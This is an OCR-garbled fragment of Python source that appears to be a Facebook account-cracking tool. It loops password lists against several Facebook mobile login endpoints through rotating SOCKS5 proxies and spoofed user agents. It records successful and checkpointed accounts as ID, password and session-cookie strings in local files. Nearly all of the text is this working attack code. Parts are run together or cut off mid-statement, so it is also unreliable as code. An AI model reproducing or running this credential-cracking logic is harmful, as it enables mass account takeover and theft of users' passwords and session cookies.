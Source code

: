 ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)   if "checkpoint" in po.cookies.get_dict().keys():    print(f'\r {K}â€”â€”> {idf}|{pw}{N}')     os.popen('play-audio .cp.mp3')    open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')    akun.append(idf+'|'+pw)    cp+=1    break   elif "c_user" in ses.cookies.get_dict().keys():    ok+=1    coki=po.cookies.get_dict()    kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])    print(f'\r {H}OKðŸ”¥ {idf}|{pw}|{kuki}\n{ua}{N}')    os.popen('play-audio .ok.mp3')    str(p.text)).group(1),"uid":idf,"next":"https://free.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}   koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])   koki+=' m_pixel_ratio=2.625; wd=412x756'   heade={'Host': 'free.facebook.com','cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://free.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://free.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate, br','accept-language': 'ms-MY,ms;q=0.9,en-US;q=0.8,en;q=0.7','connection': 'close'}   po = ses.post('https://free.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)   if "checkpoint" in po.cookies.get_dict().keys():    print(f'\r{K}>> {idf}|{pw}{N}')     os.popen('play-audio .cp.mp3')    open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')    akun.append(idf+'|'+pw)    cp+=1    break   elif "c_user" in ses.cookies.get_dict().keys():    ok+=1    coki=po.cookies.get_dict()    kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])    print(f'\r{H}>> {idf}|{pw}|{kuki}{N}')    os.popen('play-audio .ok.mp3')    open('OK/'+okc,'a').write(idf+'|'+pw+'\n')    cek_apk(session,coki)    break       else:    continue  except requests.exceptions.ConnectionError:   time.sleep(31) loop+=1 #---------------------[ METHODE-TOUCH-3 ]---------------------#def cracktouch(idf,pwv): global loop,ok,cp bi = random.choice([u,k,kk,b,h,hh]) pers = loop*100/len(id2) fff = '%' nip=random.choice(prox) proxs= {'http': 'socks5://'+nip} ua = random.choice(ugen) ua2 = random.choice(ugen2) ses = requests.Session() sys.stdout.write('\r%s â˜¬ %s/%s â˜¬ OK:%s â˜¬ CP:%s â˜¬ %s%s%s â˜¬'%(bi,loop,len(id2),ok,cp,int(pers),str(fff),x));sys.stdout.flush() for pw in pwv:  try:   ses.headers.update({'Host': 'touch.facebook.com','cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'})   p = ses.get('value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}   koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])   koki+=' m_pixel_ratio=2.625; wd=412x756'   heade={'Host': 'mbasic.facebook.com','cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://mbasic.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate, br','accept-language': 'fr_FR,fr;q=0.9,en-US;q=0.8,en;q=0.7','connection': 'close'}   po = ses.post('https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)   if "checkpoint" in po.cookies.get_dict().keys():    if 'ya' in oprek:     akun.append(idf+'|'+pw)     ceker(idf,pw)    elif 'ya' in princp:     print('\n')     statuscp = f'[â€¢] ID : {idf} [â€¢] PASSWORD : {pw}'     statuscp1 = nel(statuscp, style='red')     cetak(nel(statuscp1, title='AOREC-XD CP'))     open('/sdcard/4MBF-DATA/CP/'+cpc,'a').write(idf+'|'+pw+'\n')     akun.append(idf+'|'+pw)     cp+=1    else:continue    break   elif "c_user" in ses.cookies.get_dict().keys():    headapp={"user-agent":"SupportsFresco=1 Dalvik/2.1.0 (Linux; U; Android 6.0.1; SM-J210F Build/MMB29Q) Source/1 [FBAN/EMA;UNITY_PACKAGE/342;FBBV/107586706;FBAV/172.0.0.8.182;FBDV/SM-J210F;FBLC/id_ID;FBOP/20]"}    if 'no' in taplikasi:     coki=po.cookies.get_dict()     kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])     open('/sdcard/4MBF-DATA/OK/'+okc,'a').write(idf+'|'+pw+'|'+kuki+'\n')     print('\n')     statusok = f'[â€¢] ID : {idf}\n[â€¢] PASSWORD : {pw}\n[â€¢] COOKIES : {kuki}'     statusok1 = nel(statusok,